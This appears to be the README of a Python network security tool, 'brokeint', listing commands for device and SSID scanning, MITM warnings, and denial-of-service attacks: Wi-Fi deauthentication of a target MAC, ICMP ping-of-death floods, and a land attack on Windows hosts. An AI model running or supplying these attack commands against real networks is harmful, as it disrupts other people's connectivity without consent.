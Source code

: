 # brokeint - Network Security and Attack Testing Python Script

##

Brokeint software is a script written in Python language with network discovery, scanning, information, SSID scanning and 
DOS attack capabilities.

#### Supported Attack

`[-] ICMP DOS attack`<br>
`[-] Deauth DOS Attack`<br>
`[-] Land attack (designed for Microsoft Windows)`

##

## Use

### Help Documentation

`python3 brokeint.py -h`

###  Scans devices with cidr display and gives information about devices 

`python3 brokeint.py -ip 192.168.1.1/24 `

### The --nmap parameter scans using nmap and collects information about devices

`python3 brokeint.py -ip 192.168.1.1/24 --nmap`

### Warns the client against MITM attacks when accessing http sites

`
python3 brokeint.py -M -iface Wi-Fi`

### Brings detailed information about networks and SSID around

`python3 brokeint.py --network`

### Shell opens and provides information about your own network with commands from the help documentation

`python3 brokeint.py --networkPassword`

### This command deauts the desired target and tries to interrupt its internet service

`python3 brokeint.py --deauth <packet_count> -a <modem(SSID)_mac> -c <target_mac> -iface Wi-Fi`

### Ping of death sends ICMP pings to the target and performs a DOS attack

`python3 brokeint.py ip <target_ip> -d 150 -C 10000 -iface Wi-Fi`

### Land attack (designed for Microsoft Windows): performs a DOS attack by making the attack on the local network

`python3 brokeint.py -sI <source_ip> -dI <destination_ip> -C 1000`
